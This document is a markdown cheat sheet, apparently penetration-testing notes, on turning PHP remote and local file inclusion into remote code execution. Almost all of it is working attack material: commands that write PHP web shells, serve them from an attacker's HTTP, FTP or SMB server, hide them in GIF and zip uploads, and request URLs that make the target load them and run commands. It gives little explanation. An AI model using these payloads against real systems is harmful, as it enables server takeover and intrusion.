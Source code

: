 ```RFI
```
## Remote Code Execution with RFI
##### shell.php
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
##### HTTP
```py
sudo python3 -m http.server <LISTENING_PORT>
```
##### RCE
```rce
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/shell.php&cmd=id
```
## FTP RCE
###### FTP
```FTP
sudo python -m pyftpdlib -p 21
```
###### RCE
```rce
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```
###### CURL
```curl
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```
## SMB
`allow_url_include` disabled or enabled
```SMB
impacket-smbserver -smb2support share $(pwd)
```
###### RCE
```rce
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```
# LFI and File Uploads
## Image upload
#### Crafting Malicious Image
##### GIF
```shell
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
#### Uploaded File Path
```rce
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```
## Zip Upload
We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code.
###### Web Shell
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
###### RCE
```rce
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```